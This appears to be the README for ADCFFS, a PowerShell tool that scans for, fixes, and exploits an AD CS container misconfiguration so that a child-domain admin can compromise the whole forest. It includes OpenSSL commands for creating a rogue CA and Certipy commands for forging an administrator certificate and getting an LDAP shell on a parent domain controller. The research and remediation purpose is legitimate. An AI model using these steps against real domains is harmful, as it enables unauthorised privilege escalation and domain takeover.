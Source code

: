 <p align="center">
    <img src="https://github.com/MWR-CyberSec/AD-CS-Forest-Exploiter/blob/main/adcffs.png" width="500px">
</p>

> **ADCFFS** is a PowerShell script that can be used to exploit the AD CS container misconfiguration allowing privilege escalation and persistence from any child domain to full forest compromise. The tool can also be used to first scan the forest to determine if it is vulnerable to the attack and can remedy the permission misconfiguration as well. More information on the exploit can be found in this [whitepaper](https://www.mwrcybersec.com/active-and-certified).

## Requirements

### Modules

The script relies on the AD-RSAT PowerShell module from Microsoft. This can be installed using the following command:
```
Add-WindowsCapability -Name Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0 -Online
```

### Permissions

To determine if the forest is vulnerable, low-privileged AD access is required. However, in order to exploit the misconfiguration, your AD user must be a member of the *Administrators* group in a child domain in the forest.

### Certificate Authority

In order to embed a rogue CA, you will have to generate the CA first. This can be done using OpenSSL and the following commands:

```
openssl genrsa -out fakeca.key 2048
openssl req -x509 -new -nodes -key fakeca.key -sha256 -days 1024 -out fakeca.crt
openssl x509 -outform der -in fakeca.crt -out fakeca.der
cat fakeca.key > fakeca.pem
cat fakeca.crt >> fakeca.pem
openssl pkcs12 -in fakeca.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out fakeca.pfx
```

The `fakeca.der` file should be copied to the Windows host from where ADCFFS will be executed. The `fakeca.pfx` file can be used with tooling such as [Certipy](https://github.com/ly4k/Certipy) to generate rogue certificates for the domain.

## Usage

The functions of ADCFFS can be imported to Powershell using the `Import-Module` command. In total, there are three functions:

### ScanContainerPermissions

The `ScanContainerPermissions` function will connect to [ADSI](https://learn.microsoft.com/en-us/windows/win32/adsi/active-directory-service-interfaces-adsi) and recover the ACL permissions of the containers configured during AD CS installation. If the misconfiguration of the *BUILTIN\Administrator* permission is found, it will be indicated that the forest is vulnerable to the attack.

### RemedyContainerPermissions

The `RemedyContainerPermissions` function will connect to ADSI and remove the *BUILTIN\Administrator* permission from all AD CS containers, thus removing the installation misconfiguration.

### AddCertificateTrusts

The `AddCertificateTrusts` function will exploit the misconfiguration by embedding the certificate of a rogue CA into both the NTAuthCertificates container and the first writeable container of a CertificateAuthority. Once domain controllers perform a Group Policy update, the CA will be embedded as a trusted CA that is allowed to perform authentication.

## Exploitation

After using the `AddCertificateTrusts` function, Certipy can be used for exploitation. Note that the embedded CA is not trusted for PKINIT, thus Kerberos authentication with rogue certificates would not be possible without additional tampering. Instead, LDAP authentication using Schannel should be performed as following:

```
# Generate a rogue certificate signed by our embedded CA
certipy forge -ca-pfx myfakeca.pfx -upn administrator@<domain>

# Authenticate to a DC in the parent domain
certipy auth -pfx administrator_forged.pfx -dc-ip <IP of parent domain DC> -ldap-shell
```

LDAP commands can then be used to further compromise the domain. Note that this can also be used to target other child domains directly, removing the need to compromise the parent domain first.

## Credits

- [Oliver Lyak](https://github.com/ly4k/Certipy "Certipy") for Certipy
- [SpecterOps](https://specterops.io/) for their research on AD CS
- [Alh4zr3d](https://twitter.com/alh4zr3d) for finding the initial cross-child-domain lateral movement during his [stream](https://m.twitch.tv/alh4zr3d)
- [TryHackMe](https://tryhackme.com/) for allowing me to build massive networks to play around with
- [Chris Panayi](https://github.com/chrispanayi) for assistance with discovery of the root cause and weaponisation


